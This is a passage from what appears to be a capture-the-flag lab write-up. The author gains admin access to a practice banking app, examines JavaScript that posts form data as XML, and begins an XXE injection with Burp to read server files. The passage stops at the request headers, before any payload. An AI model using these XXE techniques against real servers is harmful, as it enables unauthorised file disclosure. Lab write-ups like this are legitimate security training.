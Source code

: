 ```html
```

And this worked. The server was using an old version of PHP. I could then connect to the application with admin@bank.a/admin. 

I went directly the the 'command' tab to try the XXE injection.

![command](/assets/images/2021/06/Battery/05_Command.png "Command")

In this page source, we can see that it's posting XML with the data from the form.

```js
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<search>' + $('#search').val() + '</search>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;
        }
    }
    xmlhttp.open("POST","forms.php",true);
    xmlhttp.send(xml);
};
```

I used Burp Repeater to play with the XML and try to inject some entities. It did not take long to find out I could read files on the server.

Sending this XML:
```html
POST /forms.php HTTP/1.1
Host: target.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 180
Origin: http://target.thm
Connection: close
Referer: http://target.thm/forms.php
Cookie: PHPSESSID=ufek6v93v6gj463504r3l2jqb7
```